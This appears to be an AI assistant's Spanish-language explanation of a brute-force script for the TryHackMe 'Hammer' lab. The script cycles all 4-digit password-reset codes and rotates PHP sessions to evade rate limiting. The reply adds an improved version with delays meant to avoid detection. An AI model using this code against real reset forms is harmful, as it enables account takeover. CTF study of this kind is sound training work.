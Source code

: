 ¡Perfecto! Si estás estudiando en **TryHackMe (THM)**, este código es para la máquina **"Hammer"**. Te explico completamente cómo funciona y qué está haciendo:

## 🔍 **Contexto de la máquina "Hammer"**

Esta máquina involucra un **ataque de fuerza bruta** a un sistema de recuperación de contraseñas. El objetivo es encontrar un código de recuperación válido de 4 dígitos.

---

## 📝 **Análisis completo del código**

### **1. Función `get_phpsessid()`**
```python
def get_phpsessid():
    reset_command = [
        "curl", "-X", "POST", "http://hammer.thm:1337/reset_password.php",
        "-d", "email=tester%40hammer.thm",
        "-H", "Content-Type: application/x-www-form-urlencoded",
        "-v"
    ]
```
**Propósito**: Obtener una nueva sesión del servidor
- **`curl -X POST`**: Envía una solicitud POST al formulario de recuperación
- **`email=tester%40hammer.thm`**: El email codificado (`%40` = `@`)
- **`-v`**: Muestra información detallada (verbose) para extraer la cookie

```python
    response = subprocess.run(reset_command, capture_output=True, text=True)
    
    phpsessid = None
    for line in response.stderr.splitlines():
        if "Set-Cookie: PHPSESSID=" in line:
            phpsessid = line.split("PHPSESSID=")[1].split(";")[0]
            break
```
**Extracción de la cookie**:
- Busca en `stderr` (por el flag `-v`) la línea que contiene `Set-Cookie`
- Extrae el valor de PHPSESSID hasta el `;`

### **2. Función `submit_recovery_code(phpsessid, recovery_code)`**
```python
def submit_recovery_code(phpsessid, recovery_code):
    recovery_command = [
        "curl", "-X", "POST", "http://hammer.thm:1337/reset_password.php",
        "-d", f"recovery_code={recovery_code}&s=180",
        "-H", "Content-Type: application/x-www-form-urlencoded",
        "-H", f"Cookie: PHPSESSID={phpsessid}",
        "--silent"
    ]
```
**Propósito**: Probar un código de recuperación específico
- **`recovery_code=XXXX`**: El código de 4 dígitos a probar
- **`s=180`**: Posiblemente un parámetro de sesión o timestamp
- **`--silent`**: Suprime output innecesario de curl

### **3. Función `main()` - El corazón del ataque**
```python
def main():
    phpsessid = get_phpsessid()
    if not phpsessid:
        print("Failed to retrieve initial PHPSESSID. Exiting...")
        return
    
    for i in range(10000):
        recovery_code = f"{i:04d}"  # Formato: 0000, 0001, ..., 9999
```
**Bucle principal**: Prueba todos los códigos desde 0000 hasta 9999

```python
        if i % 7 == 0:  # Cada 7 intentos, renueva la sesión
            phpsessid = get_phpsessid()
```
**Renovación de sesión**: Muy importante porque:
- Las sesiones PHP pueden expirar después de varios intentos
- El servidor podría bloquear IPs después de muchos intentos con la misma sesión

```python
        response_text = submit_recovery_code(phpsessid, recovery_code)
        word_count = len(response_text.split())

        if word_count != 148:
            print(f"Success! Recovery Code: {recovery_code}")
            break
```
**Detección de éxito**: 
- **`word_count != 148`**: Cuando el código es correcto, la respuesta HTML es diferente (tiene más o menos palabras)
- Esta es la **"firma"** que indica que encontramos el código correcto

---

## 🎯 **Qué está aprendiendo en THM**

### **Conceptos de seguridad que practicas:**
1. **Fuerza bruta controlada**: Ataque sistemático pero con medidas para evitar detección
2. **Gestión de sesiones**: Cómo manejar cookies y renovar sesiones
3. **Análisis de respuestas HTTP**: Identificar diferencias entre respuestas exitosas/fallidas
4. **Automatización de ataques**: Scripting para tareas repetitivas

### **Para la máquina Hammer específicamente:**
- Estás explotando un sistema de recuperación de contraseñas débil
- Los códigos de 4 dígitos solo tienen 10,000 combinaciones (fácil de brute-force)
- El servidor no implementa rate limiting efectivo

---

## 🛠 **Posibles mejoras para el código**

```python
import requests
import time

def improved_attack():
    session = requests.Session()
    
    for i in range(10000):
        code = f"{i:04d}"
        
        # Renovar sesión cada 10 intentos con delay
        if i % 10 == 0:
            session = requests.Session()
            session.post("http://hammer.thm:1337/reset_password.php", 
                        data={"email": "tester@hammer.thm"})
            time.sleep(0.5)  # Evitar detección
            
        response = session.post("http://hammer.thm:1337/reset_password.php",
                               data={"recovery_code": code, "s": "180"})
        
        # Mejor detección: buscar palabras clave
        if "invalid" not in response.text.lower():
            print(f"¡Éxito! Código: {code}")
            print(f"Respuesta: {response.text[:200]}...")
            break
            
        # Progress indicator
        if i % 100 == 0:
            print(f"Probados: {i}/10000")

improved_attack()
```

---

## 💡 **Consejos para THM**

1. **Ejecuta el código original primero** para entender la mecánica
2. **Usa Wireshark o Burp Suite** para ver las peticiones HTTP en tiempo real
3. **Experimenta cambiando** el número de intentos entre renovaciones de sesión
4. **Aprende a reconocer** patrones en respuestas HTTP para otros challenges

¿Tienes alguna pregunta específica sobre alguna parte del código o sobre la máquina Hammer? ¡Estoy aquí para ayudarte! 🚀
